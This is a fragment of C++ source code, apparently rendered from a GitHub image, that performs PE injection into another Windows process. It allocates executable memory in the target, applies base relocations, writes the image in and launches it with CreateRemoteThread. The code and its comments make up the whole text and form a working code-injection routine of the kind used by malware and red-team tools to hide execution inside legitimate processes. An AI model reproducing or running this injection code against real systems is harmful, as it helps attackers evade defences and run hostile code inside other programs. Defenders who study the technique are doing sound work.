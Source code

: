 ```cpp
	// Open the target process - this is process we will be injecting this PE into
	//HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 30632);
	HANDLE targetProcess = pi->hProcess;

	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, (MEM_COMMIT | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	LPVOID arg = VirtualAllocEx(targetProcess, NULL, 128, (MEM_COMMIT | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR delta = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	//Carry out base relocation patching if the relocation table exists
	IMAGE_DATA_DIRECTORY dataDirectory = (IMAGE_DATA_DIRECTORY)ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	if (dataDirectory.VirtualAddress != 0) {
		PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + dataDirectory.VirtualAddress);
		DWORD relocationTableSize = dataDirectory.Size;
		DWORD relocationEntriesCount = 0;
		PDWORD_PTR patchedAddress;
		DWORD relocationOffset = 0;
		PBASE_RELOCATION_ENTRY relocationRVA = NULL;

		while (relocationTable->SizeOfBlock > 0)
		{
			relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
			relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

			for (short i = 0; i < relocationEntriesCount; i++)
			{
				if (relocationRVA[i].Offset)
				{
					patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
					*patchedAddress += delta;
				}
			}
			relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
		}

	}
	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	DWORD_PTR entryPoint = (DWORD_PTR)InjectionEntryPoint + delta;

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + delta), arg, 0, NULL);

	return 0;

}
```
